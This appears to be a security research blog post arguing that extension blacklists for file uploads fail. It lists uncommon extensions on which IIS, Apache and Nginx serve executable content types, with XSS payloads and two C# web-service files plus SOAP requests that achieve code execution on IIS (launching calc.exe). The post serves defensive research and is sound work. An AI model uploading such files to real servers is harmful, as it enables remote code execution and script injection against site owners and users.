```yaml
---
layout: post
title: Why BlackList < WhiteList
permalink: ExtensionsOverview
---
```


<div style="text-align:center"><img src = "/public/cat.png"/></div>
Often, when you write the code, which is responsible for file uploading, you check the extensions of downloaded file with using “whitelist” (when you can upload only files with certain extensions) or “blacklist” (when you can upload any files which are not included in the list).



<!--more-->

After the [@ldionmarcil’s](https://twitter.com/ldionmarcil) [post](https://twitter.com/ldionmarcil/status/922553386645454850), I decided to understand how popular web-servers interact with various types of extensions. Firstly, I was interested in which content-type is returned by the web-server on different file types. 

Developers usually include only well-known and obvious extensions in the blacklist. In the article, I want to consider not the wide-spreading file types.

For demonstration PoC, I used the following payloads:
* Basic XSS payload: ```<script>alert(1337)</script>```
* XML-based XSS payload: ```<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(1337)</a:script>```

Below I’ll show the results of this little research.

***

## IIS web server

By default, IIS responds with the text/html content-type on the file types, which presented in list below:

Extensions with basic vector:
* .cer
* .hxt
* .htm

<a href="/public/cer_xss.jpg" data-fancybox data-toolbar="false" data-small-btn="true">
![alt text](/public/cer_xss.jpg "cer xss")
</a>

Therefore, it is possible to paste the basic XSS vector in the uploaded file, and we will get an alert box in browser after opening the document.
The list below includes extensions on which IIS responds with the content-type which allow to execute XSS via XML-based vector.

Extensions with XML-based vector:
* .dtd
* .mno
* .vml
* .xsl
* .xht
* .svg
* .xml
* .xsd
* .xsf
* .svgz
* .xslt
* .wsdl
* .xhtml

<a href="/public/mno_xss.png" data-fancybox data-toolbar="false" data-small-btn="true">
![alt text](/public/mno_xss.png "mno xss")
</a>

By default, IIS also supports SSI, however exec section is prohibited for the security reasons

Extensions for SSI:
* .stm
* .shtm
* .shtml

<a href="/public/SSI_example.png" data-fancybox data-toolbar="false" data-small-btn="true">
![alt text](/public/SSI_example.png "SSI sorce code")
</a>

More detailed information about SSI is written in the [post](https://twitter.com/ldionmarcil/status/922561177636311041) by [@ldionmarcil](https://twitter.com/ldionmarcil)

In addition:

There are also two other interesting extensions (.asmx and .soap) that could lead to arbitrary code execution. It was discovered in collaboration with Yury Aleinov ([@YuryAleinov](https://twitter.com/YuryAleinov)).

#### Asmx extension

1. If you can upload file with .asmx extension, it can lead to arbitrary code execution. For example, we took file with the following content:

   ```csharp
<%@ WebService Language="C#" Class="MyClass" %>
using System.Web.Services;
using System;
using System.Diagnostics;


	[WebService(Namespace="")]
	public class MyClass : WebService 
	{
		[WebMethod]
		public string Pwn_Function()
		{
			Process.Start("calc.exe");
			return "PWNED";
		}
	}

   ```
   <a href="/public/asmx_source_example.png" data-fancybox data-toolbar="false" data-small-btn="true">
   ![alt text](/public/asmx_source_example.png "Asmx sorce code")
   </a>
  
2. Then we sent POST request to the uploaded document:

   ```http
   POST /1.asmx HTTP/1.1
   Host: localhost
   Content-Type: application/soap+xml; charset=utf-8
   Content-Length: 287
   
   <?xml version="1.0" encoding="utf-8"?>
   <soap12:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap12="http://www.w3.org/2003/05/soap-envelope">
     <soap12:Body>
       <Pwn_Function/>
     </soap12:Body>
   </soap12:Envelope>
   ```
   <a href="/public/asmx_calc_example.png" data-fancybox data-toolbar="false" data-small-btn="true">
   ![alt text](/public/asmx_calc_example.png "Run calc")
   </a>
   
   
3. As the result, IIS executed "calc.exe"

###### Soap extension

Contents of uploaded file with .soap extension:
   ```csharp
<%@ WebService Language="C#" Class="MyClass" %>
using System.Web.Services;
using System;

public class MyClass : MarshalByRefObject
{
    public MyClass() { 
	    System.Diagnostics.Process.Start("calc.exe");
	}		     
}

   ```
SOAP request:
   ```http
POST /1.soap HTTP/1.1
Host: localhost
Content-Length: 283
Content-Type: text/xml; charset=utf-8
SOAPAction: "/"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <MyFunction />
  </soap:Body>
</soap:Envelope>

   ```
   <a href="/public/soap_rce.png" data-fancybox data-toolbar="false" data-small-btn="true">
   ![alt text](/public/soap_rce.png "Run calc")
   </a>
   
***

## Apache (httpd or Tomcat)

Extensions with basic vector:
* .shtml
* .html.de or .html.xxx (xxx – any characters)*

Extensions with XML-based vector:
* .rdf 
* .xht 
* .xml 
* .xsl 
* .svg 
* .xhtml 
* .svgz 

\* if there are any characters after “.html.” in the extension, Apache will respond with text/html content-type.

<a href="/public/html_random.png" data-fancybox data-toolbar="false" data-small-btn="true">
![alt text](/public/html_random.png "xss")
</a>

In addition:

Apache returns response without Content-type header on a large number of files with different extensions, which allows an XSS attack, because browser often decides how to handle this page by itself. [This article](http://pwndizzle.blogspot.ru/2015/07/xss-extensions-and-content-types.html) includes detailed information about this question. For example, files with the .xbl and .xml extension are processed similar in Firefox (if there is no Content-Type header in the response), so there is the possibility of exploiting XSS using XML-based vector in this browser.

***

## Nginx

Extensions with basic vector:
* .htm

Extensions with XML-based vector:
* .svg
* .xml
* .svgz

***

>If you find mistakes or you have additional information, please DM me in twitter.
